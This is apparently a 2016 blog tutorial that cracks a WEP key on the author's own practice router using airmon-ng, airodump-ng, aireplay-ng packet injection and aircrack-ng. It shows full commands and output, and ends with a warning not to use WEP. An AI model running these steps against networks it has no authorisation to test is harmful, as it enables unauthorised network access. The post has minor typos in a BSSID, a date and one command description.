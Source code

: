 ```yaml
---
layout:     post
title:      "Wireless Security"
subtitle:   "WEP Hacking"
date:       2016-09-25 2:00:00
author:     "W3ndige"
header-img: "img/wireless-security-wep-header.jpg"
permalink: /:title/
category: Networking
---
```


<h1>Introduction</h1>

<p>Wired Equivalent Privacy (WEP) was introduced in 1999 as a part of 802.11 standard. It's puprose was to assure the privacy of the wireless network in a way near to wired networks. It's using RC4 cipher (with different key size: 64 and 128 bits) and CRC-32 checksum to mantain integrity. In addition WEP is using a short, 24 bit initialization vector (IV), which is added to the key provided by user, creating 'unique' for each packet RC4 key. But because the IV is so short, and it's used with the same key, WEP is now considered outdated, easy to crack and insecure.  </p>

![wep-crypto](/img/wireless-security-wep/wep-crypto.png){:class="img-responsive"}


<h1>Step by step attack</h1>

<p>Firstly we need to setup an old router, with WEP security option enabled, which will be our practice target. Also remember to have some other device connected to it wirelessly since we'll need to capture encrypted data between them. After that check whether or not your wireless card supports packet injection - if not, you have to get another one. I'm using TL-WN722N which is great and cheap option. Now, if you have everything up and running - let's move to Kali. </p>

<p>Firstly let's check if your adapter is seen by Kali - you can do this by typing <b>airmon-ng</b> command. </p>

{% highlight bash %}
root@kali:~# airmon-ng

PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n
{% endhighlight %}

<p>For me it shows two cards - built in and USB one which is <b>wlan1</b></p>

<p>Now type <b>airmon-ng start [interface]</b> to set your USB adapter into monitor mode. If you encounter any problem try using <b>airmon-ng check kill</b> which will kill any processes using this adapter. After that I checked what name was assigned to the adapter - for me it was <b>wlan1mon</b> but yours can be different. </p>
{% highlight bash %}
root@kali:~# airmon-ng start wlan1


PHY	Interface	Driver		Chipset

phy0	wlan0		b43		Broadcom on bcma bus, information limited
phy1	wlan1		ath9k_htc	Atheros Communications, Inc. AR9271 802.11n

		(mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
		(mac80211 station mode vif disabled for [phy1]wlan1)

root@kali:~# ifconfig
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 0  (Local Loopback)
        RX packets 2200  bytes 150212 (146.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2200  bytes 150212 (146.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1mon: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec F4-F2-6D-1A-99-ED-00-00-00-00-00-00-00-00-00-00  txqueuelen 1000
{% endhighlight %}

<p>Next step is to find the router - and get it's BSSID, channel (CH) and ESSID. You can do this by running command <b>airodump-ng [interface]</b>. This will show list of routers in range, information we need and some additional data. </p>

{% highlight bash %}
root@kali:~# airodump-ng wlan1mon
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 18:21:95:90:46:45  -86        2        0    0   1  54e. WPA2 CCMP   PSK  AndroidAP                                                                  
 54:B8:0A:10:DF:0E  -42       34        0    0   1  54e  WEP  WEP         pentest_wep                                                                
 D2:AE:EC:CE:DB:3B  -76       10        0    0   1  54e  WPA2 CCMP   PSK  DIRECT-mi pass-PHILIPS TV                                                  


 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                            

 00:27:22:2A:9C:0E  00:27:22:06:83:C3  -83    0 - 0     50       49                                                                                   
 C4:27:95:75:3E:45  10:30:47:E3:43:F5  -67    0 -11e     0        2  
{% endhighlight %}


<p>Here it is, we've got all information to start the attack. My target is <b>pentest_wep</b> with BSSID:<b>54:B8:0A:10:DF:0E</b> on channel <b>1</b>. Copy the essential information and open another terminal window (CTR + ALT + T). Now we're going to capture encrypted packets sent between the router and client device. We can do this with airodump-ng command. </p>

{% highlight bash %}
root@kali:~# airodump-ng -w pentest_wep -c 1 --bssid 54:B8:0A:10:DF:0 wlan1mon
{% endhighlight %}

<p>Explanation: <b>-w</b> will save the packets to the file called pentest_wep, <b>-c</b> is a channel that the target is using, and <b>--bssid</b> is to specify which router we're going to attack. Last thing is to choose the USB adapter running monitor mode.</p>

<p>That's what we're going to be shown after running this command. </p>

{% highlight bash %}
CH  1 ][ Elapsed: 32 s ][ 20016-09-25 10:16                                         

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                    

54:B8:0A:10:DF:0E  218 100      312     1927  223   1  54 . WEP  WEP         pentest_wep              

BSSID              STATION            PWR   Rate   Lost  Packets  Probe                               

00:A0:37:C3:D1:CB  06:19:E0:88:6A:4C  170   0-24   1005       16    
{% endhighlight %}

<p>As you can see we've got a few more information - number of beacons, data sent, packets, and data per second. These numbers will start at 0 and grow as the traffic is passed between the router and client device. Then this traffic is saved into the file, specified in the command argument, which we're going to use later in order to crack the password. But to make it work you will need at least 20,000 IV's, sometimes even more. I recommend you to 'harvest' around 100,000 as it will undoubtedly work. At this point you can wait until you get desired number of IV's. But what if the target isn't using internet at the time? What if he/she's sleeping? Yup, there's solution to this ;)</p>


<p>Open up another terminal window (remember not to close the one running airodump-ng) and type in this command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -1 0 -a 54:B8:0A:10:DF:0E wlan1mon
No source MAC (-h) specified. Using the device MAC (F4:F2:6D:1A:99:ED)
08:05:38  Waiting for beacon frame (BSSID: 54:B8:0A:10:DF:0E) on channel 1

08:05:38  Sending Authentication Request (Open System) [ACK]
08:05:38  Authentication successful
08:05:38  Sending Association Request [ACK]
08:05:38  Association successful :-) (AID: 1)
{% endhighlight %}

<p>After that run another command <b>aireplay-ng -1 0 -a [BSSID] [interface]</b></p>

{% highlight bash %}
root@kali:~# aireplay-ng -3 -b 54:B8:0A:10:DF:0E wlan1mon
{% endhighlight %}

<p>Aireplay-ng works by sending ARP request packets so that data and beacons should start growing quickly. This works even if no one is connected to the internet. </p>


<p>Now after we've already captured huge amount of packets close all the processes that were running, then type <b>ls</b> to see if the .cap file was saved. Then we can type <b>aircrack-ng [filename.cap]</b>. This will start the process of cracking the password. Attack will be restarted between every 5000 IV's. </p>

{% highlight bash %}
root@kali:~# aircrack-ng pentest_wep-01.cap
Opening pentest_wep-01.cap
Read 1894984 packets.

   #  BSSID              ESSID                     Encryption

   1  54:B8:0A:10:DF:0E  pentest_wep               WEP (9651 IVs)

Choosing first network as target.

Opening pentest_wep-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 9651 ivs.


                                 Aircrack-ng 1.2 rc3


                 [00:32:05] Tested 1972 keys (got 24276 IVs)

   KB    depth   byte(vote)
    0    4/  8   42(30720) 30(29696) B0(29696) 68(29184) 0E(28160)
    1    0/  1   31(34304) 0A(30720) 0F(29952) 35(29952) E9(29952)
    2    2/  5   0F(29696) A1(29440) CA(29440) CB(28928) F7(28928)
    3    2/  6   68(30720) 15(30464) 89(29696) E1(29696) 5F(29184)
    4    8/  9   92(29696) 9C(28928) B5(28928) 64(28672) 8F(28672)

                     KEY FOUND! [ 42:31:57:68:92 ]
	Decrypted correctly: 100%
{% endhighlight %}

<p>And we've got the key! Some versions of aircrack may show you also ASCII version of the key but both can be used to login into the wireless network. Notice that you can run aircrack at the same time as running airodump - that way it tries to crack the key every time you gather new 5000 IV's. </p>

<p>Notice how easy it was to gain access to the network protected with WEP? That's why you should never protect your network with this standard. </p>

<p>As always thanks for reading, keep tuned for the next part about more advanced algorithms like WPA or WPA2. I also really recommend trying it out by yourself as it's the best way to understand how it works and learning by practicing is the best way to gain knowledge. </p>

<p>~ Stay safe! </p>
